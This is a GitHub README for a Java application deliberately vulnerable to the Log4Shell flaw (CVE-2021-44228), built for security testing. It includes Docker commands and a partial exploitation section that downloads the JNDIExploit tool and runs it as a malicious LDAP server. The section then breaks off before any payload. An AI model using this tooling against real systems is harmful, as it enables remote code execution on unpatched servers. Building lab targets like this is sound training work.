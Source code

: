# TekiumLog4jApp v1.0

Author: Erick Rodríguez 

Email: erickrr.tbd93@gmail.com, erodriguez@tekium.mx

License: GPLv3

Application developed in Java that simulates an application vulnerable to CVE-2021-44228. 

It uses Log4j 2.11.1 and JDK 1.8.0_181.

# Running

Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- 

# Commercial Support
![Tekium](https://github.com/unmanarc/uAuditAnalyzer2/blob/master/art/tekium_slogo.jpeg)

Tekium is a cybersecurity company specialized in red team and blue team activities based in Mexico, it has clients in the financial, telecom and retail sectors.

Tekium is an active sponsor of the project, and provides commercial support in the case you need it.

For integration with other platforms such as the Elastic stack, SIEMs, managed security providers in-house solutions, or for any other requests for extending current functionality that you wish to see included in future versions, please contact us: info at tekium.mx

For more information, go to: https://www.tekium.mx/

